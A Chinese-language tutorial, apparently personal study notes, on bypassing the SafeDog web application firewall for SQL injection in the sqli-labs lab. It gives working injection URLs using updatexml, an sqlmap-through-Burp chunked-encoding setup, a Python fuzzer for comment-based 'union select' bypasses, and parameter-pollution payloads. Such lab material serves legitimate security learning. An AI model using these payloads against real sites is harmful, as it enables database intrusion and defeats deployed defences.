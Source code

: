## SQL注入绕WAF

测试WAF：安全狗

测试环境：sqlilab

 ### 分块编码传输

使用最新版安全狗进行测试，测试关卡为sqlilab得第11关

![](media\2020-01-01.png)

可以看到我们使用报错注入直接被安全狗拦截了，接下来使用分块编码传输尝试。

![](media\2020-01-02.png)

可以看到已经通过报错获得了当前用户的用户名。

结合sqlmap使用得话可以用以下方法

* 将burp得proxy设置为自动进行分块传输![](media\2020-01-04.png)

  ![](media\2020-01-05.png)

* ```
  sqlmap执行命令：python sqlmap.py -r test.txt --proxy=http://127.0.0.1:8080
  ```

  ![](media\2020-01-06.png)

### 安全狗特性绕WAF

安全狗会自动忽略/**/中的内容，利用这点我们构造出如下语句：

```
http://localhost/sqllab/Less-1/?a=/*&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20user()),0x7e),1)--+*/
```

![](media\2020-01-03.png)

### FUZZ

首先要找到被过滤的点，是union、select、还是union select得组合。然后进行fuzz。这种情况多适用于对一个如union select这个组合进行过滤得情况。

附：fuzz脚本

```
#!-*- coding:utf-8 -*-
#!/usr/bin/env python

import requests, sys

fuzz_zs = ['/*','*/','/*!','/**/','?','/','*','=','`','~','@','|','!','%','.','-','+','%00','%20','%09','%0a','%0d','%0c','%0d','%a0']
fuzz_sz = ['']
fuzz_ch = ['%0a','%0d','%0c','%0d','%0e','%0f','%0g','%0h','%0i','%0j','%0h','%0i','%0j','%0k','%0l','%0m','%0n','%0o','%0p','%0q','%0r','%0s','%0t','%0u','%0v','%0w','%0x','%0y','%0z']

fuzz = fuzz_zs + fuzz_sz + fuzz_ch
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36'}

url_start = 'http://192.168.25.133/sql.php?id=1'

lens = len(fuzz)**4
num = 0
#只嵌套了4层
for a in fuzz:
	for b in fuzz:
		for c in fuzz:
			for d in fuzz:
				num += 1
				payload = "/*!union" + a + b + c + d + "select*/ 1,2,3"
				url = url_start + payload
				print("Now URL:" + url)
				print "Process %s / %s"%(num,str(lens))
				# sys.stdout.write("Process：%s / %s \r"%(num,str(lens)))
				# sys.stdout.flush()
				res = requests.get(url,headers=headers)
				if "hhhhtest" in res.text:
					with open('Result.txt','a') as r:
						r.write(url + "\n")
```



 https://mp.weixin.qq.com/s/1OoK-57IogCABWAlkp2S5A 

### HPP污染

HPP污染在绕过waf中有两种应用场景

* 以http://localhost/aaa.php?id=1&id=union select 1,2,3--+为例，WAF可能取第一个id，而服务器则取最后一个id值。这样可以达到绕过waf得效果。
* 服务器可能会将两个相同字段得值拼接在一起，如http://localhost/aaa.php?id=1' union&id=select 1,2,3--+ 。waf对两块分离都没有告警，而两者在后端拼接在一起时就会产生注入效果。

 https://cloud.tencent.com/developer/article/1516333 

### 附加内容：

分块编码传输插件： https://github.com/c0ny1/chunked-coding-converter 

SQLServer Bypass安全狗

https://blog.csdn.net/qq_41210745/article/details/102952607 